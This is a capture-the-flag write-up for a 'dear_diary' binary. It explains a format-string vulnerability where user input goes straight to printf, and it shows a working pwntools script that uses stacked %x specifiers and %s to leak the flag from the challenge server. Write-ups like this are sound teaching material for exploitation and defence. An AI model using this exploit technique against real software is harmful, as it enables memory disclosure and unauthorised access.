

dear_diary
==========

**Solved by:** [int10h](https://github.com/brianmwaters) and [mut3](https://github.com/mut3)

> We all want to keep our secrets secure and what is more important than our precious diary entries? We made this highly secure diary service that is sure to keep all your boy crushes and edgy poems safe from your parents. `nc diary.vuln.icec.tf 6501`

The binary has a pretty straightforward menu-based interface that lets you create objects and print them. We might be looking for a heap-based vulnerability here:

```
brian@katahdin:dear_diary$ ./dear_diary
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> 1
Tell me all your secrets: ok!

1. add entry
2. print latest entry
3. quit
> 2
ok!

1. add entry
2. print latest entry
3. quit
> 3
brian@katahdin:dear_diary$
```

However, the binary doesn't like it if if any of our "entries" contain `n`'s:

```
brian@katahdin:dear_diary$ ./dear_diary
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> 1
Tell me all your secrets: no way!
rude!
brian@katahdin:dear_diary$
```

The object allocation turned out to be stack-based, not heap-based, so no use after free here. I spent waaay too much time looking for some kind of overflow, but everything was buttoned up tight. Then I found it, staring me in the face:



In case you can't read that, `printf` is being called with a single, user-controlled argument. This explains why the binary exits if any of our secrets contain the letter `n` - it's sanitizing the input against the `printf` `%n` specifier that can lead to arbitrary code execution!

That's okay though, because we don't need the `%n` specifier here anyway. The binary reads `flag.txt` into memory on startup and stores it's address near the top of `main`'s stack frame (well, actually, the bottom, since the stack grows down). Since the vulnerable `printf` call is in a stack frame directly below `main`, we can get it to read past all the crap we don't care about with a bunch of `%x`'s, and then read the flag out with `%s`. I don't think we even used the debugger to find the right number of `%x`'s; we just kept adding more 'til it worked:

```
#!/usr/bin/env python2

from pwn import *
remote_host='diary.vuln.icec.tf'
remote_port=6501
context(arch='i386',os='linux')

def pwn():
  print "Beginning pwn!"
  address = p32(0x0804a0a0) # literally leave the memory address '0804a0a0'
  payload = "%x"*17+"%s" # clear 17 4-byte words and then the string at the 4
byte pointer
  child.recvuntil('>') # wait for prompt
  child.sendline('1') # choose new entry
  child.sendline(address)
  child.recvuntil('>')
  child.sendline('1')
  child.sendline(payload)
  child.recvuntil('>')
  child.sendline('2')
  print(child.recv())


child = remote(remote_host,remote_port)
pwn()
child.interactive()
```
